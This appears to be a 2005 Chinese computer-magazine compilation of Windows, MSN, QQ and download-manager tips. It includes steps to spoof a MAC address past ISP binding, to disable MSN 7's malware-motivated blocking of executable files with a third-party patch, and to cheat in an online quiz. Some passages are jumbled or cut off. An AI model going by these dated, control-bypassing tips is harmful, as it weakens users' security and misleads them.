-   可能会将IE 7.0与微软公司今年初推出的Microsoft Anti-Spyware Service整合起来。
-   IE 7.0会增加多页面浏览功能（tabbed browsing），就是目前Maxthon、GreenBrowser、Opera和几乎所有第三方浏览器使用的浏览方式。尽管据说这种技术有被黑客利用的隐患，但是它的优越性早已被证明，微软显然不会放弃。

安全性能的改进往往涉及代码底层，普通用户由于没有直接感知而对此可能比较茫然。下面笔者举一个简单的例子：

## 实例：IE 7.0究竟考虑什么安全问题？

近来，有关“网络钓鱼”（Phishing Attacks）的案例非常之多，国内多次出现了诸如假冒银行在线网站的圈套，也有不少“前赴后继”地中招。最没有“技术含量”的“网络钓鱼”方法是视觉欺骗，比如用 http://www.lenovo.com 冒充联想官方站（注意1和l的区别）等等。不过最近出现了一种“新钓法”：网络钓鱼和病毒相结合，也就是说即使用户键入的是真实网址，都可能会被引导进入假网站！这些让人头痛的问题就是留给IE 7.0的考验。



微软是打自己的算盘，还是真正能够“急用户之所急”，细心的读者到时候可以留意。

## 实例：IE 7.0为中文域名带来生机？

如果IE 7.0对IDN（多语种域名）的支持得到重大进展，那么包括中国在内的、世界各地使用不同语言的网民将可以使用自己的语言来网上冲浪了。也许以后我们在IE地址栏中输入“电爱”就能直接解析到CFan的网站，而非通过第三方中文域名机构来完成这个工作。

## 使用特性——会出现多页面浏览功能吗？

几乎可以肯定的是，IE 7.0在用户使用特性上不会有大规模的改进，但也会有小幅变化，比如加入呼声很高的多页面浏览功能。如果真的实现，微软显然是迫于用户的需求以及对手Firefox的压力，当然大家也别指望它能提供更多的相关定制，至少远远会落后于Maxthon这些浏览器。

另外一个可能实现的功能是IE对RSS的支持，这也可能只是用户的一厢情愿而已。

总结：从前文的分析来看，我们对IE 7.0的新特性有所期待，至少它会触动Firefox的神经，这对用户有益无害，希望本文对大家了解它的方向有些帮助。总的来说，IE 7.0更像是一道不得不吃的菜，不管你是否对它感兴趣，也不管它是否是一道大餐，最终它都将被微软塞到你嘴里。

很多朋友都试用过Microsoft Anti-Spyware，其实这款软件就是在该软件的前东家Giant出品的Giant Anti-Spyware软件的基础上打上了“Made by Microsoft”的标签而已。如果将其提供的服务与IE 7.0结合，究竟是微软是

## 附表：IE 7.0不完全档案

| 项目 | 内容 |
| :--- | :--- |
| 发布日期 | 2005年夏 (beta) |
| 发布方式 | Windows Update |
| 开发代号 | Rincon |
| 支持环境 | Windows XP SP2、Windows Server 2003 SP1、Windows XP Professional X64、Longhorn (不再对Windows 2000提供支持) |

(四川 小小)

## MSN Messenger也能给离线好友留言啦！

### 1. 添加离线留言机器人

MSN Messenger与QQ相比，有个不爽的地方就是无法给离线好友发消息。不过，现在终于有了解决方案，国外的 http://www.offlinemessenger.com/index.php 提供了给离线好友发消息的机器人服务。

第一步：打开MSN Messenger，点击菜单命令“联系人→添加联系人”，在弹出窗口中直接单击“下一步”按钮，在“请输入您的联系人的电子邮件地址”文本框中输入：offmsgr10@hotmail.com，接着按常规完成添加的后续步骤。

第二步：这样的你的好友列表中会多出一个Offline Messenger (Beta)，双击打开其聊天窗口，输入“.menu”(不包含引号)。聊天窗口中会显示其命令(见图)。其中“.sendmsg”就是发送离线消息的命令，使用方法为：.sendmsg



邮件地址 留言。

第三步：例如你要给123@hotmail.com这位好友发送“你好，上线后找我”的消息，应写为“.sendmsg 123@hotmail.com 你好，上线后找我”（不包含引号）。你的好友上线后，这个离线消息机器人就会自动把信息发送过去。

### 小提示

命令中的.mirrors是列出还有哪些离线消息机器人，并显示其状态。由于现在还处于测试阶段，每个机器人只能为1000左右的人服务，所以如果在使用中发现有问题，可选择其他机器人。目前还有以下离线消息机器人：

offmsgr4@hotmail.com
offmsgr5@hotmail.com
offmsgr6@hotmail.com
offmsgr7@hotmail.com
offmsgr8@hotmail.com
offmsgr9@hotmail.com

### 2. Messenger Plus!的留言功能

如果你安装了Messenger Plus!，可以右击某个离线的好友，在弹出菜单中选择“Messenger Plus!扩展→设置留言”，在出现的窗口中勾选“当XXX登录时发送消息给对方”，然后在下面文本框中输入留言，这样，对方在上线后就会收到你的消息了，不过，得保证他登录时你也在线才行。

(ABC)

## 九招搞定网络连接

### 网络连接在哪里？

当我们上网时，不管连接到Internet还是仅仅在局域网中，几台电脑要想互相连接，都会使用到TCP/IP协议。要想连通网络，就必须在“网络连接”里面设置一下。在“开始→设置→网络连接→本地连接→属性”中，可以找到我们今天的主人公网络连接。

小提示：进入“网络连接”还有更快捷的方法：在“开始→运行”中输入“ncpa.cpl”，回车后就能进入网络连接。

### 网络连接中的常驻客

只要你有网卡，在网络连接中就会有一个“本地连接”图标，右击它并选择“属性”，你会发现里面有4个设置项目：“Microsoft 网络客户端”、“Microsoft 网络的打印机和文件共享”、“QoS 数据包计划程序”和“Internet协议(TCP/IP)”(见图1)。在这4个选项中，我们常打交道的是第二个和第四个，而“Microsoft网络客户端”也是默认安装的，一般不必理睬它。这里要说说这个“QoS 数据包计划程序”。



#### 1. Windows会悄悄保留20%带宽吗？

几年前，大多数人还在通过Modem拨号连接到Internet。尽管速度有限制，但很多用户仍要同时运行多个访问网络的程序。例如，可能会同时下载、发电子邮件、聊天甚至使用音频或视频流。这些程序大部分使用TCP作为基本传输协议，每个程序都使用其自己的连接，稳定状态导致传输的数据占满整个TCP窗口。当下一个程序开始传输数据时，它使用的连接受到算法的制约，因此第二个程序达到稳定状态所需的时间要长得多，所以传输速度就会降低。

联网服务质量(QoS)的作用，就是将应用程序数据流循环，从而提高网络性能。网上和一些报刊介绍Windows XP总是将20%的可用带宽预留给QoS，这些说法是错误的，微软已经确认这一点。因此，所谓“提升20%带宽”的技巧只是谣传，我们还是默认勾选“QoS 数据包计划程序”比较好。

小提示：在局域网中不安装TCP/IP协议而安装其他协议的话，只要安装的协议一样，电脑也是可以互联的，就好比在中国国内不使用英语进行交流而采用汉语也是没有任何问题的，但只要出了中国境内要和外国人交流(Internet)就必须使用国际语言英语(TCP/IP协议)。

#### 2. 打印机和文件共享

这个选项是默认勾选的，如果你的电脑从不连接打印机，也不访问网络，可以取消这个选项。在使用“网上邻居”时，如果你发现连自己都看不到，那很可能就是你没有打开“打印机和文件共享”，可以到这里来检查一下。

#### 3. Microsoft网络客户端

这个选项是你访问Windows网络必备的，建议保持它的选中状态，也不需要修改其中选项。如果要访问其他非Windows网络，比如Netware网络，会在网络连接属性中看到其他客户端。

#### 4. 网卡和协议可能会让电脑变慢

网卡会明显影响系统启动速度，如果你安装了网卡，又用不到它，建议将其拆下，或在“设备管理器”中禁用它，如果网卡集成在主板上，则可在BIOS中选择禁用。

许多人会把TCP/IP、NetBEUI、NWLink等协议全部装进来，其实大多数人往往只会用到TCP/IP协议，安装多余的协议不仅会浪费内存，因为当一个应用程序或服务向网络发出信息请求时，Windows会在所有加载的协议中寻找所请求的服务器或服务，从而造成时间上的延迟，影响网络性能。

### 通过配置TCP/IP协议解决实际问题

介绍了前面三个“常驻居民”，现在来看看“最佳男主角”——TCP/IP协议。由于介绍TCP/IP协议的文章比较多，但大多都是基于理论介绍的，与实际问题联系得比较少，笔者通过多年的网络工作积累了一些TCP/IP协议设置解决实际问题的经验，在此全盘托出。

### 招数1：巧设多DNS解析 提高网通电信互访速度

大家都知道，目前网通和电信网络互访速度非常慢，这时可以尝试为自己的计算机设置多个DNS服务器。当访问相应ISP的网站时，会用最快的DNS服务器进行解析，这样在一定程度上提高了网通和电信之间的访问速度。

第一步：选择“网上邻居→属性→本地连接→属性”。

第二步：找到Internet协议(TCP/IP)项，双击打开。我们可以在“首选 DNS 服务器”和“备用 DNS 服务器”中设置服务器的IP地址。一个设置为网通的，一个设置为电信的。当然，具体设置为哪个IP，还需要我们从网络中选择离自己最近的，速度最快的。

第三步：为了提高域名的访问速度，我们往往会为自己的电脑添加更多的DNS服务器，这样在解析时系统会自动选择速度最快的。不过默认下只能设置两个DNS服务器，要想设置更多的地址需要在TCP/IP界面中点“高级”按钮，接着选择“DNS”标签。

第四步：在DNS标签中按“添加”按钮，可以添加更多的DNS服务器IP地址。这样，就使得我们本地电脑的域名解析速度大大提高。

小提示：“高级”选项中还有什么？在“高级”选项中，你还会看到“WINS”。什么是WINS？WINS是为NetBIOS名称提供解析的服务。WINS服务主要用于NT系统和早期的Windows 2000中，并且仅仅是在局域网中进行解析。随着DNS服务的发展与行，WINS解析已经逐渐退出了历史舞台，被DNS解析所替代。

### 招数2：一秒钟加速启动速度

现在，很多朋友都在使用ADSL或是FTTB宽带。在进入Windows后，有时会发现系统托盘处的网络标志有点异常，两盏小灯在不停旋转。进入命令提示符，用“ipconfig”命令查看当前IP地址，你会发现地址是“169.254.X.X”的地址(后两位任意)。其实，这个IP地址是不能在Internet上使用的，它是由于你在“TCP/IP属性”中选择了“自动获得IP地址”，而DHCP服务器并没有给你分配地址造成的。这时，你可以给网卡指定一个固定IP地址，如10.0.0.1，按“确定”即可。这样，今后重启电脑后，系统就不会不停地搜索网络了。

### 招数3：修复的妙用

#### 1. 巧治网络断流

家用ADSL如果出现断流不必惊慌，如果已经判断出是本机问题(外网不存在问题)，网络设置没有问题，可以参考如下方法解决：

第一步：双击系统托盘处的网络链接，按“修复”。

第二步：在“设备管理器”中卸载网卡驱动，然后点右键，选择“扫描硬件改动”系统会自动再次安装网卡，重新设置网络选项，故障自动排除。

#### 2. 快速更换IP地址

在Windows XP和2003中为网络连接增加了一个“修复”功能，通过它可以解决部分网络故障特别是DHCP更新的问题。比如DHCP服务器已经给你指派了新的地址，你想更换，此时并不需要重启。

第一步：通过“开始→设置→控制面板→网络和拨号连接”打开网络拨号连接窗口。

第二步：在本地连接图标上点右键选择“修复”(见图2)。系统会自动对当前网络参数进行刷新，如果是自动获得IP地址的话，会与网络中的DHCP服务器联系获得最新的参数信息。



小提示：★本方法主要用于网络中IP地址等参数获取失败或获取错误，通过网络连接的修复功能可以再次从DHCP服务器中获得正确的地址信息。实际上修复功能相当于在命令行模式下输入 ipconfig /release 释放网络信息，再输入 ipconfig /renew 获得新信息。

★让你的IP地址一秒钟变一次：如果使用ADSL等拨号网络，可以下载一个叫做Who Is Connected的软件，它能帮你自动变换网址。下载地址 http://www.nativecs.com/downloads/WhoIsConnectedSetup.exe

### 招数4：如何让用户不能修改网络属性

第一步：打开注册表编辑器，找到[HKEY_CURRENT\Software\Microsoft\Windows\CurrentVersion\Policies\Network]。

第二步：在对应Network键值的右边窗口中，查看一下是否有“NoNetSetup”这样的Dword值，如果没有就新建一个，并把该Dword值设置为1。

第三步：确认后重启。今后再访问“网上邻居”或“网络”时，系统就会警告用户无权访问网络，这样用户自然也就没有机会修改网络设置了。

### 招数5：网络分割——TCP/IP协议绑定双IP

请先复习一下2005年第6期《笔记本 就要随需应变》，通过配置TCP/IP协议将一块网卡绑定两个IP地址，两个网关来实现网络设置切换的自适应。

笔者在所在单位还发现通过这种单网卡双IP地址设置的网络可以实现简单的网络分割。例如ABC三台电脑，在A上配置双IP地址(192.168.0.2，10.104.30.2)，B的IP地址为192.168.0.1，C的IP地址为10.104.30.3。这样A与B，A与C都可以顺利互联，而B与C之间由于不在一个网段就不能互相访问了。这样就实现了最简单的网络分割功能，将接在同一个HUB上的电脑B与C进行了隔离。

### 招数6：突破ISP绑定MAC地址的限制

很多ISP为了防止多台电脑共享上网，将网卡MAC地址在ISP核心设备上进行了记录，当上网用户的电脑升级或购买了新电脑时，由于新网卡地址和ISP记录的MAC地址不一样，会造成无法上网的问题。这时就需要进行修改。我们可以通过对TCP/IP协议的配置来实现。

第一步：进入“开始→设置→网络连接→本地连接→属性→常规标签”。

小知识：169.254开头的是什么地址？

从169.254.0.1到169.254.255.254的IP地址范围被因特网号码分配机构(IANA)保留。此范围中的任何IP地址不能在Internet上使用。当你的电脑选择的是“自动获得IP地址”，而网络或是DHCP存在问题，就会获得这样的地址。使用这样的IP地址，是不能使用一切Internet服务的。

第二步: 选择“配置→高级”, 在属性中找到 Network address 项, 将其值设置为 ISP 记录的 MAC 地址, 例如 ISP 记录的 MAC 地址是 11-11-11-11-11-11, 我们需要填写成 111111111111 的形式即可(见图 3)。



第三步: 设置完毕后, 通过 Ipconfig /all 命令来查看, 就会发现本机的 MAC 地址已经修改为 11-11-11-11-11-11 了。

## 招数7: 降低标准 突破网络难关

大家都会用 Ping 命令, 有时网络中的电脑一会儿通一会儿不通。出现这种情况, 往往是因为网卡品质问题造成的。要想确切地掌握故障的根源, 可以将网卡工作模式的标准降低, 即将其设置为 10MB 传输速度或半双工模式。

第一步: 通过“开始→设置→控制面板→网络和拨号连接”打开网络拨号连接窗口。

第二步: 在本地连接图标上点右键选择属性, 在属性窗口中点“配置”按钮。

第三步: 接着选择“高级”标签, 将 Link Speed & Duplex 项的值从 Auto Detect 设置为 10Mbps/Full Duplex 或 10Mbps/Half Duplex(见图 4)。

设置完毕后, 如果发现可以 Ping 通网络中的其他电脑, 则说明是网卡的品质不好或网线的制作有问题, 这种排查方法应用范围很广, 适合于多种情况。



### 小提示

其实还有很多网络连接问题可以通过在“本地连接”上点鼠标右键选择禁用, 之后再次启用该连接来解决。该方法也适用于让新的网络设置快速生效。

## 招数 8: 小小桥接办大事

在 Windows XP 和 2003 中, 增加了一种新的网络连接方式—网桥, 它是一种连接局域网的廉价而便捷的方法, 它可以使电脑在同一个网络内借助网卡实现多机互联或实现更远距离的网络连接。也就是通过网桥实现两个网段之间数据的流通, 有点类似路由器的感觉。这里以 Windows XP 为例说明。

单击“开始→控制面板→网络连接”。在“LAN 或高速 Internet”下, 选择要将其作为桥的各个网络连接。接着右击网络连接之一, 选择“桥接”。这样, 连接到该电脑两个网卡的不同电脑就可以相互通信了, 即使他们不在同一个网段内, 也可以通过该电脑的网桥功能传输数据包了。

如果希望将更多的网段进行桥接, 还可以添加新网卡, 然后在新的网络连接上右击选择“添加到桥”就可以为新的网段添加桥接功能了。

## 招数9: 巧用 TCP/IP 筛选增强电脑安全

目前黑客、木马, 甚至是一些网络病毒最主要的侵入或传播途径, 便是通过电脑中的端口, 因此我们最好只允许那些必需的端口打开(比如浏览网页端口 80、FTP 端口 21、邮件服务端口 25、110 等), 这样可以有效加强电脑的安全。而 Windows 2000/XP 提供的“TCP/IP 筛选”能够帮你轻松完成这个任务。

按照前面的方法进入“本地连接”的“Internet 协议(TCP/IP)属性”窗口, 接着单击其中的“高级”按钮, 在弹出的“高级 TCP/IP 设置”中, 选择“选项”标签, 选中“TCP/IP 筛选”, 然后单击“属性”按钮。

在弹出的“TCP/IP 筛选”对话框里选择“启用 TCP/IP 筛选”的复选框, 然后勾选“TCP 端口”上方的“只允许”。接下来单击“添加”按钮, 将常用的端口—添加进去(见图 5)。



可能会问, 如何知道其他常用网络软件所使用的端口是多少呢? 这里建议你使用 FPort 软件(下载地址:http://www.newhua.com/cfan/200509/FPort.rar), 它是一个命令行工具, 在命令行提示符窗口运行它, 便会显示出当前电脑中开放的 TCP/UDP 端口和应用程序的关联, 根据这里的结果, 你可以轻松地将常用软件的端口添加进去。

别小看网络属性, 如果没有它整个网络都会乱套。不过我们也不能对它置之不理, 有时经过点滴的配置还是可以起到很大作用的。希望本文的几个实例能够对你有所帮助。

(softer)

## 谁能把 FlashGet 拉下马?

FlashGet 一直以下载速度快、文件管理功能强大、运行稳定等优点来赢得用户的支持。不过它也有弱点: 比如大而全中规中矩, 没有什么特色; 是一款共享软件, 且带有间谍程序; 对流媒体文件下载的支持还不够出色等。很多用户, 之所以使用它, 是因为已经习惯了它的存在。不过如果大家以客观的态度来审视一下, 你会发现, 其实还有很多选择!

## Free Download Manager——功能全面超越 FlashGet

挑战优势: 几乎具有 FlashGet 的所有功能, 而且还能选择性下载 ZIP 压缩包中的文件, 对多媒体文件支持边下载边播放, 下载前先获得下载文件的大小, 支持下载整个网站, 计划任务功能更强大, 免费。

震撼等级: ★★★★☆

Free Download Manager(以下简称为 FDM) 绝对有实力让你彻底抛弃 FlashGet, 因为从功能上讲它已经全面超越了后者, 而且还是一款完全免费的软件。如果一定要鸡蛋里挑骨头, 它只有一个不尽如人意之处: 不支持流媒体下载。下面笔者结合几个实例来简单介绍一下它的几个特色功能。

### Free Download Manager 小档案

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | 1.7 Build 295 |
| 软件大小 | 1315KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://www.onlinedown.net/soft/33913.htm |
| 汉化包 | http://www2.skycn.com/soft/19031.html |

等你就可以看到该文件的大小了(见图 2)。



#### 实例 1: 我只想下载 ZIP 文件中的一部分

有时, 我们只需要下载某个压缩包里的某个或多个文件, 但如果用 FlashGet, 就不得不将整个文件都下载到硬盘。文件小倒不说, 如果文件动辄上百兆, 将会让你苦不堪言。那就试试 FDM 的 ZIP 文件预览功能吧。

第一步: 按正常方式点击要下载的链接, FDM 会自动调用, 确认下载后软件会提示“或许您正下载的文件是一个 ZIP 压缩档文件。您是要预览它吗?”, 当然选择“是”。

第二步: 稍等片刻, FDM 会弹出一个“ZIP 预览”窗口, 我们在该窗口中取消勾选不需要下载的文件, 单击“OK”即可。下载获得的文件同样是个 ZIP 压缩包, 不过只包含我们需要的文件(见图 1)。


### 小提示

可惜的是, FDM 不支持对 RAR 压缩包的预览, 不过世界上没有任何一款下载工具具有该功能, 因为 RAR 不像 ZIP 那么开放, 压缩技术是有专利的。

#### 实例 2: 我想先看看要下载的文件有多大

朋友发来一个东西, 你根本不知道它有多大, 结果下载开始后才发现它是个庞然大物。如果能预先知道, 至少有个心理准备吧? 点击下载链接, 在弹出的“添加下载项目”窗口中点击“查询文件大小”按钮, 稍

### 小提示

FDM 提供了大、中、小三种通讯模式, 知道文件大小后, 可以设置成相应通讯模式, 从而提高文件下载速度。设置方法是直接在工具栏上点击“小容量模式”、“中等模式”、“大容量模式”按钮进行选择。

#### 实例 3: 我想把 CFan 网站连锅端下来

要实现这个功能, 我们一般会利用 Offline Explorer 等离线浏览软件, 不过现在你可以用 FDM。在软件主界面中切换到“HTML 捕获器”标签, 在空白处单击右键, 选择“下载网站”。在打开的对话框中, “网站”一栏填写地址, 如“http://www.cfan.com.cn”。接下来需要注意的是设置“下载的层次深度”, 比如想下载 CFan 站点首页、它包含的图片以及它直接链接到的页面内容, 那么该值就设置为“2”。最后选择保存位置并确认(见图 3)。

### 小技巧

利用 FDM 批量下载指定格式图片的目的，方法跟下载整个网站类似，不过需要先选择“选项→HTML捕获器默认设置”菜单，切换到“图像”标签，在“通过扩展名排除图像”栏中勾选“开始”，勾选“下载”，在“这些扩展名的图像”栏中设置要下载图片格式的扩展名，比如“PNG JPG”(扩展名之间用空格隔开)(见图3)。需要注意的是，“下载的层次深度”值设置为1。



除了上面介绍的几个绝招外，FDM还有比较强大的计划任务和文件管理功能，它们的使用跟FlashGet差不多。此外，FlashGet的备份我们只有备份相关的注册表键，而FDM则只需要选择“文件→导出→导出设置”菜单，重新安装后再导入即可。



## 边下载边欣赏电影—— WellGet

挑战优势: 支持电影文件边下载边播放, 支持最多128个线程下载, 支持最多20个下载任务, 对流媒体协议支持完善, 免费。

震撼等级: ★★★★

WellGet与FlashGet相比，其对流媒体下载的支持更加完善，而且关键是它提供的“Downloading & Playing”技术能让你一边下载一边观看电影，效果跟下载后观看一样。

### WellGet 小档案

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | 1.25 beta build0118 中文版 |
| 软件大小 | 1024KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/33382.htm |

WellGet的操作和界面都跟FlashGet类似，不再赘述。其“边下载边播放”设置非常简单: 首先按照正常方式开始电影的下载，稍等片刻，选中正在下载的文件，点击工具栏上的“播放”按钮即可(见图5)。



下载过程中可以在软件主界面左边切换到“详细信息”标签，其中“资源”一项就代表了迅雷当前正在用几个下载点下载文件。资源数量越多，则下载速度就越快。笔者在测试中发现，分别利用迅雷和FlashGet来下载同一个文件，迅雷的资源达到7个，速度达到75.8KB/s，而FlashGet只有40多KB/s(见图6)。



### 小技巧 让GreenBrowser认识WellGet

在最新版本的Maxthon中，可以在其属性设置中将默认的下载软件设置为WellGet，但GreenBrowser不行，我们可以用记事本打开GreenBrowser安装目录下的DownManager.ini文件，在其中新起一行，添加如下内容并保存:

```
N17=WellGet
script=<script language="vbscript">
set WGApi=CreateObject("NxApi.myComponent")
call WGApi.AddUrl("%download_url", "%download_info", document.Url)
</script>
```

接下来在GreenBrowser中选择“工具→GreenBrowser选项”菜单，切换到“下载”标签，在“选择下载管理器”下拉列表中就可以找到“WellGet”一项，确认即可。

## 好快的速度—— 迅雷

挑战优势: 下载速度快，即将支持BT下载方式。

震撼等级: ★★★★

迅雷跟FlashGet相比，惟一值得大家考虑的地方就是下载速度。如果你是个没有足够耐心的人，那就考虑它吧。为什么它会比一般的下载软件速度快呢? 因为其下载原理不是普通的P2S(点到服务器，FlashGet就是这种方式)，也不是P2P(点到点，BT就是这种方式)，而是将两种结合起来的P2SP。也就是说，在文件下载过程中，迅雷会自动搜寻镜像服务器，达到“多个服务器同时下载”的目的。

### 迅雷 小档案

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | V4.6.1.44 |
| 软件大小 | 1512KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 9x/ME/2000/XP |
| 下载地址 | http://xjtt.downloaddsky.com:8081/down/Thunder4.6.1.44.exe |

### 小提示
如果你还是习惯于IE那种简洁的下载设置，那你可以使用迅雷的Mini版本，安装后你感觉不到它的存在，只是在后台默默为你加速而已。其下载地址: http://js-http.skycn.net:8081/down/ThunderMini1.0.0.1.exe。

## Just Do IT

网络下载知多少 每天挂在网上疯狂下载,你可知道自己下了多少东西, 上传了多少东西(分享才能获得快乐)? 你可以下载一个小软件Crystal Internet Meter(http://www.casdk.com/downloads/cim_setup.exe),它可以即时显示真实上传及下载速度, 并且能够统计每天、每星期、每月的传输量, 让你做到心中有数。

小编有话说: 除了前面介绍的3款软件外，很多朋友都还在使用Net Transport、GetRight等下载工具。其实，不同的下载工具有不同特点，如果追求高速度，迅雷是不错的选择。如果嫌装软件麻烦，可以考虑装一个DuDu下载加速器，它能取代IE下载窗口，并自动搜索网段中已经下载的文件，让你不知不觉中提高下载速度。这里顺便提醒一下使用Net Transport的用户，安装时尽量选择其国际版本，因为其中文1.93版中默认安装了某网络游戏客户端且难以卸载。

Net Transport 国际版下载地址: http://nj.onlinedown.net/soft/28818.htm
语言文件下载地址: http://www.nettransport.com.cn/downloads/0804.lng。
DuDu下载加速器: http://www.onlinedown.net/soft/31324.htm

(四川 飞翔鸟)

## 亲手编QQ 10万代码很一般！

你用的是什么版本的QQ? 原版还是珊瑚虫版? 想不想自己来当一回程序员, 制作一个特别版本、特别功能、包含特别组件的QQ安装程序呢? 如果你做得很出色, 将你制作的QQ安装程序放到Internet上去, 说不定你也会像珊瑚虫那么出名呢! QQ有10万行以上的代码, 我们自己真的能做到吗?

### 我们能实现什么功能？

- ★ 拥有自己的版权信息, 比如笔者制作的是“QQ 2005 beta1 逍遥小小版”。
- ★ 完全自主选择安装组件, QQ游戏、Tencent Messenger、Tencent Travelor你想将谁整合进去就整合进去。
- ★ 只安装自己需要的功能, 比如QQ网络硬盘、互动空间、聊天室、QQ宠物、音乐播放器等等功能, 不需要的就不装。



#### QQ 2005 beta1 逍遥小小版出炉记

之所以能够实现上述那么自由的功能, 其实并不是我们要搞什么程序设计, 实际上我们要感谢QQ狂人DIY版(http://www.gochina.cn)的作者, 他已经提供了“做菜”的原料, 我们只需依样画葫芦即可。

笔者制作的这个“逍遥小小版”包含如下特性: 只安装QQ 2005(不要QQ游戏、TM、TT), QQ面板只保留QQ网络硬盘和QQ音乐, 带有IP功能。

第一步: 首先到http://www.gochina.cn/download/QQ2005.rar下载这个包含QQ狂人DIY版的各种文件的压缩包, 下载完毕后将其解压缩到C盘根目录(只能下载到该目录, 否则安装文件会无法识别)。

第二步: 接下来用记事本打开C:\腾讯QQ目录下的QQ2005.nsi文件, 这个文件是我们制作安装程序的关键, 所有关于自定义的东西都是通过修改这个文件来做到的。大家需要注意其中的“Section “XXX” SEC**”, 每一个功能或者组件的定义都是以该字段开头, 其中“XXX”表示该组件或功能的名称, “**”表示该组件的编号。

我们只需删除某个以“Section “XXX” SEC**”字段开头, 以“SectionEnd”结尾的这一段文字, 再删除“; Section descriptions”字段下面对应的组件描述行, 就可以让制作出的安装程序不包含该组件或功能。以删除QQ的远程桌面功能为例:

```
Section "远程桌面" SEC05
SectionIn 12
SetOutPath "$INSTDIR"
File "C:\腾讯QQ\可选组件\远程桌面\DShared"
```


如图2所示，首先删除以下内容:

```
; Shortcuts
!insertmacro MUI_STARTMENU_WRITE_BEGIN
Application
!insertmacro MUI_STARTMENU_WRITE_END
SectionEnd
```

第三步：接下来我们该来为安装文件打上自己的名字了。编辑如下字段为自己想要的名字即可(见图3):

```
!define PRODUCT_VERSION "β1"
; 笔者修改为 “!define PRODUCT_VERSION "β1 逍遥小小版"”
```

### 小提示
为了尊重该文件的作者狂人，建议不要将其中的“BrandingText "此安装包改装自QQ狂人DIY版 http://jobcray.126.com"”这行代码删除。

### Nullsoft Installation System 小档案

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | 2.06 |
| 软件大小 | 1669KB |
| 软件性质 | 免费软件 |
| 运行环境 | Windows 9X/ME/NT/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/8730.htm |

小编有话说:这里笔者介绍的仅仅是比较初级的DIY而已，如果搞明白了QQ安装目录中各个文件的功能，以及其他一些与QQ DIY的相关知识(比如制作自己的皮肤等)，就可以通过该方法来制作出专业水准的QQ安装程序了。如果你对此很感兴趣，推荐大家去狂人论坛充充电:http://www.gochina.cn/bbs/。
(四川 逍遥小小)

## 牛人！网上答题之快搜作弊法！

### 网络猪小档案

| 项目 | 信息 |
| :--- | :--- |
| 软件版本 | 3.0 |
| 软件大小 | 6.7MB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://pig.zhongsou.com/pig3/pig3setup.exe |

### 实例1:搜索无处不在

当你查看Word文件时，很可能忽然对某一个词发生兴趣或者产生疑惑，想立即到网上去找找相关资料，这时就可以利用网络猪的搜索功能。拖拽鼠标，选中关键词，关键词的右上角就会立即出现4个按钮，其中第二个就是快捷搜索的按钮(见图1)。按下之后，网络猪就会启动内置的搜索引擎，并显示最终的搜索结果。



### 实例2:开心辞典答题捷径曝光啦！

王小丫主持的《开心辞典》，收视率一直很高。作为选拔参赛者的方式之一，网上答题是便捷的一种。但到网上试验一下才知道，难度可真不小！每道题只有10秒钟(最多30秒)的考虑时间，答对只有1分，错了就要从头再来。真是奇怪了，那些高手的上千积分怎么来的？当然，高手们渊博的知识肯定是重要的基础，这里教你一招“快搜绝技”。
第一步:启动网络猪，进入答题画面。
第二步:迅速选中题目主干，然后按下右侧出现的“放大镜”按钮(见图2)。这时，不要急于切换到网络猪，用最短的时间浏览一下选项，在大脑里面留下一点印象。



### 实例3:让Google进入更多地方

相对而言，Google是我们更常用的搜索引擎，如何让它的应用范围更广泛呢？
1.让Google进驻你的EmEditor
只要在EmEditor中选择好关键词，然后点击相应按钮，就能直接到Google中搜索，很酷吧？具体方法如下:打开“工具→外部工具→自定义工具→新建”，在“标题”中输入“Google搜索”，“命令”栏后输入“http://www.google.com/search?q=$(CurText)&ie=gb2312&hl=zh-CN&lr=”(不含引号)，使用时，只要选中相应的文本，再点击该按钮就可打开Google进行搜索了。如果你喜欢用百度，命令为“http://www1.baidu.com/baidu?word=$(CurText)&cl=3&ct=0&sf=5&lm=0”。
2.Google快搜法
网络猪的快搜功能只能在zhongsou.com中搜索文字。如果在网页中看到一段文字，想到Google中搜索，最快捷的方法是什么？只要安装了Google Desktop Search，就可以直接在网页中选中文字，然后右击，在弹出菜单中选“搜索”就能迅速到网页中找结果了，很方便吧？
3.用Google快搜Office文档
在Word中打开一篇文章，选中其中某一段文字，按下右键“搜索”，就能自动到Google中搜索这段文字，这是不是你一直需要的功能？其实，实现方法也不复杂：打开Word，进入“工具→宏→宏”，选“创建”，然



### 小提示
★在“放大镜”上点击鼠标右键可以对搜索范围进行设置(如新闻、行业、MP3、图片、Flash等)，建议用一下搜索功能，确实相当好用。
★网络猪还有本地硬盘搜索功能，和我们曾经介绍过的其他硬盘搜索软件比较类似，如果感兴趣可以尝试一下。

## MSN 7.0不能传EXE文件了？

MSN 7正式版已经登台了（下载地址：http://messenger.china.msn.com/Download），它增加了一个可能会让很多人疯狂的“新功能”：许多文件格式，包括EXE、COM等可执行的文件格式，都会自动被MSN7挡下来，导致传输失败。这是微软为了防堵MSN病毒传播而想出的主意，但反而造成许多网友的困扰。

如何顺利解决这个问题？有两个方法。

一个方法是在传送前花一点时间，把要传的文件压缩成ZIP或RAR文件再传送，这样虽然多花一点时间，但也能缩小文件大小，让传输时间缩短一些。如果你不想花时间先压缩文件的话，也可以照下面的步骤，用Mess. be网站推出的修正程序破解MSN 7的限制即可。不过，接受文件的一方也要执行破解程序才行，不然文件还是无法顺利传送的。

注意，MSN 7不能传送EXE文件的问题，是出在“接收方”而非“发送方”。例如你传送文件给别人时，其实并不会受到限制，但对方的MSN一旦发现文件是执行档，就会封锁下来并拒绝接收，导致文件传送失败。因此当你执行破解程序后，只能接收别人传来的可执行文件，若想发送执行档给其他人，必须请他们也先安装破解程序才行喔！

第一步：先关闭MSN Messenger，从http://downloads.mess.be/downloads/patches/extfix (www.mess.be).zip下载补丁程序，解压缩后运行其中的“extfix.exe”，然后按下“是”。

第二步：很快，补丁程序就会显示已修正完毕，按下“确定”后重新打开MSN即可。

第三步：用过补丁程序后，当别人再发送EXE等原本会被阻挡的文件时，就可以顺利接收了（见图）。

小提示
